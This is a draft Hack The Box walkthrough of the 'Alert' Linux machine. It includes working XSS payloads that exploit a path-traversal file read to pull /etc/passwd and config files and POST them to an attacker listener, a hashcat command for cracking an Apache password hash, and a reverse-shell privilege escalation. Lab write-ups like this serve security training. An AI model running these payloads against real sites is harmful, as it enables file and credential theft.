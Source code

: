 ```yaml
---
title: "Alert Walkthrough(HTB)"
date: 2025-03-20
draft: true 
description: "a description"
tags: ["Easy", "Linux", "HTB", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Linux 
- Got three ports open SSH,web page etc
- ![[Pasted image 20241218005036.png]]
- Server running on apache2
- We got a Markdown reader page, Basic functionality is Upload the md file and read it.
- But there is an issue it uses js and HTML to render the page within them
- My md file contents 
- ![[Pasted image 20241218005523.png]]
- Which loaded like this
- ![[Pasted image 20241218005550.png]]
- This is quite bad. It can execute code as it renders the contents
## Enumeration
- Also another functionality is there pretty straight forward one where in contact form Whatever link sent the other user Admin seems to be clicking it without analyzing it.
- So to exploit this LFI vulnerability used this payload and opened a nc on other side. 
```js
<script>
fetch("http://alert.htb/messages.php?file=/etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- To execute this payload, View it and use the share option and get the link, share it the miserable admin via contact form.
- After some enumeration
```js
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd").then(response => response.text())
  .then(data => fetch("http://10.10.14.12:6001", {
      method: "POST",
      body: data
  }));
   
</script>
```
- ![[Pasted image 20241218010840.png]]
- Found couple of users. Now the configs for apache2 running websites generally resides at `/etc/apache2/sites-available/000-default.conf` Learnt this from enumerating my own machine.
- ![[Pasted image 20241218011112.png]]
- After modifying the original payload according to this I got the output.
- ![[Pasted image 20241218011242.png]]
- Got the `.htpasswd` location. Usually this file contains the password for apache2 .
- Within that we got password hash for User albert 
- ![[Pasted image 20241218011625.png]]
- Lets crack it
## Exploitation
- I used hashcat to crack this hash `hashcat hash.txt  /usr/share/wordlists/rockyou.txt -m 1600 --username` Here specified module 1600 to crack apache type hash and with albert presented within the hash so specified `--username` flag
- ![[Pasted image 20241218012743.png]]
- Now we can use ssh to login
- We got the user flag
## Privilege Escalation
- General SUID, SGID, Capabilities didn't had anything promising
- But anyway there was a internal web service running on port 80 `ss -tunlp` so I tunneled it to my machine via ssh on port 2000.
- `ssh -L 2000:localhost:8080 albert@alert.htb`
- ![[Pasted image 20241218014520.png]]
- The website name was websitemonitor which runs and monitor the websites which are public from the machine like alert.htb
-  I have found the website location on `/opt/websitemonitor`
- Where it had configuration file on `/config`
- ![[Pasted image 20241218020002.png]]
- As it defines the web folder on root and Albert too have access to modify it.
- I changed the file with reverseshell.
- ![[Pasted image 20241218020421.png]]
- Eventually secured root flag
- ![[Pasted image 20241218020525.png]]
